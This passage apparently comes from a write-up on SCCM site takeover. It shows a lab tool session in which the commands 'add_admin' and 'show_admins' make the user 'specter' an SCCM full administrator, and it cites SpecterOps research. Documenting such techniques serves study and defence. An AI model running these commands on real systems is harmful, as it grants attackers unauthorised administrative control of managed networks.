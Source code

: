                         UserName: specter                                                                                                           
                        UserPrincipalName: specter@internal.lab                                                                                        
                        ------------------------------------------                                                                                            
    () (C:\) >> add_admin specter S-1-5-21-2391214593-4168590120-2599633397-1109
    [06:53:19 PM] INFO     Tasked SCCM to add specter as an administrative user.                                                                                 
    [06:53:19 PM] INFO     [+] Successfully added specter as an admin.                                                                                           
    () (C:\) >> show_admins 
    [06:53:20 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
    [06:53:20 PM] INFO     Current Full Admin Users:                                                                                                             
    [06:53:20 PM] INFO     lab\Administrator                                                                                                                     
    [08:46:39 PM] INFO     specter 
    ```

## References
- Chris Thompson, [SCCM Site Takeover via Automatic Client Push Installation](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)
- Garrett Foster, [SCCM Hierarchy Takeover with High Availability](https://medium.com/specter-ops-posts/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)
- Microsoft, [Site server high availability in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/site-server-high-availability)
